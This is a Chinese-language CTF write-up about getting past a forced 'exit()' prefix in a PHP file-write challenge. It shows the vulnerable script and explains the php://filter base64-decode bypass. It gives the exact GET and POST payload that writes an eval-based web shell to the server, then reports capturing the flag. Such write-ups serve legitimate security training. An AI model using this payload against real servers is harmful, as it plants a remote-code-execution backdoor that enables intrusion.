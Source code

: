 # php死亡绕过

```php
 <?php
/*
PolarD&N CTF
*/

highlight_file(__FILE__);
file_put_contents($_GET['filename'],"<?php exit();".$_POST['content']);

?> 
```



## 分析

php语法为，将一段内容写入文件中，文件名称自己指定，文件内容开头为`<?php exit()`;，然后在拼接用户指定的内容。



exit();函数指定的是结束php代码的执行，所以这里我们要想办法使`<?php exit();`失效



我们可以使用php伪协议绕过，将我们需要指定的php程序进行base64编码，在上传文件的时候进行base64解码，这样我们正常的base64编码将会解码成明文，而原有的`<?php exit();`将会被解码成乱码。使用`convert.base64-decode`进行解码，而这个解码过滤器等同用 `base64_decode()` 函数处理所有的流数据。



```
base64_decode(string $string, bool $strict = false): string|false

string
	编码过的数据。

strict
	当设置 strict 为 true 时，一旦输入的数据超出了 base64 字母表，将返回 false。 否则会静默丢弃无效的字符。
```



在进行base64解码的时候，<? ;等字符会被过滤，只剩下phpexit七个字符，而base64解码时时4字符解码，所以我们在传入的base64前需要加上一个字符，避免我们的base64被破坏变成乱码。



构造payload，get请求中传入`filename=php://filter/convert.base64-decode/resource=1.php`，post请求中传入`content=aPD9waHAgZXZhbChAJF9QT1NUWydjbWQnXSk7ID8+`

```
PD9waHAgZXZhbChAJF9QT1NUWydjbWQnXSk7ID8+
base64解码
<?php eval(@$_POST['cmd']); ?>
```



上传payload

![image-20231105102622123](images/%E6%AD%BB%E4%BA%A1%E7%BB%95%E8%BF%87.assets/image-20231105102622123.png)



成功拿到flag

![image-20231105102536536](images/%E6%AD%BB%E4%BA%A1%E7%BB%95%E8%BF%87.assets/image-20231105102536536.png)

